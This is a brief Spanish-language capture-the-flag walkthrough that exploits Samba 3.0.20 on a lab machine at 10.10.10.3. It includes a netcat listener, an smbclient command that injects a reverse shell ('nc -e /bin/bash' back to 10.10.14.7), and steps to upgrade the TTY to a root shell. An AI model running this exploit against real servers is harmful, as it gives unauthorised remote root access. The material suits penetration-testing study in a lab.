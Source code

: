 ## Vuln exploit & Gaining Access {-}

### Ganando accesso desde la vulnerabilidad SAMBA 3.0.20 {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Intentamos enviar commandos siguiendo la guia del script

    ```bash
    smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1" -c 'logon "/=`nohup nc -e /bin/bash 10.10.14.7 443`"'
    ```

Hemos ganado accesso al systema.


### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

Dandole a `whoami` vemos que ya estamos root ;) No se necessita escalar privilegios en este caso.
